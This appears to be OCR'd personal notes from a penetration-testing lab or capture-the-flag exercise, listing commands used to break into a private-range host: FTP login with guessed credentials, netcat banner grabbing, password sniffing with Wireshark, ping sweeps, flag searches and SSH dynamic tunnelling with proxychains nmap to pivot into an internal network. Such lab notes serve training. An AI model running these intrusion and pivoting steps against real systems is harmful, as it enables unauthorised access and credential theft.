 try 'wget -r ftp://10.50.23.190' 
this one didn't work. 
see what you got from the wget for now (http)
ls 10.50.23.190
eom 10.50.23.190/index.html
try to nc it:
nc 10.50.23.190  21
ftp 10.50.23.190
try username: bob
try password: bob
Now that you're in the fpt session:
  ftp> ls
     no info
     > exit
Update your map, show what you've got from the ports you've exploited.
try the port 25. 
nc 10.50.23.190 25
  provided an ssh version! seems like they designed ssh to port 25 instead. 
ssh 10.50.23.190 -p 25
  no success? it says permission denied. BUT, this implies the service is still up and running.
ssh bob@10.50.23.190 -p 25 
  but we don't have the creds for bob... how can we do this?
    sniff and wait on the port with wireshark until somebody tries to telnet in.
  bobs password: password.
Now you're in!
enumerate system info. 
  ip addr
    you found the real ip (as opposed to the float, which should never be relied on)
      'ip neig' will get you the ip addresses you have talked to. 
      you can also ping sweep the entire range to get all addresses in the network! try it, at least:
    for i in {1..254}; do (ping -c 1 10.0.0.$i | grep "bytes from" &) ; done
  Now you've got a list of addresses that have been reached. 
Try testing port 443, from bob-host now!
  ss -ntlp

Split screen
  nc 10.50.23.190 443
    it's another fake port... let's move on, or if there's a hint work with it. 
  look for files 
    find / -iname "*.hint" 2>/dev/null
    find / -iname "*.flag" 2>/dev/null
    find / -name "hint*" 2>/dev/null
    ! there was a hint found. 
    cat /srv/ftp/hint.txt
      It gave you a hint. 
dynamic tunnel
ssh bob@10.50.23.190 -p 25 -D 9050 -NT (this will create a dynamic tunnel, 9050 is the port you opened on you local machine)
ss -ntlp 
run:  'proxychains nmap -Pn 10.0.0.101/24 -p 20-23,80 -T5' or 'proxychains nmap -Pn 10.0.0.101-105 -p 20-23,80 -T5' or 'proxychains nmap -Pn 10.0.0.101,124 -p 20-23,80 -T5'
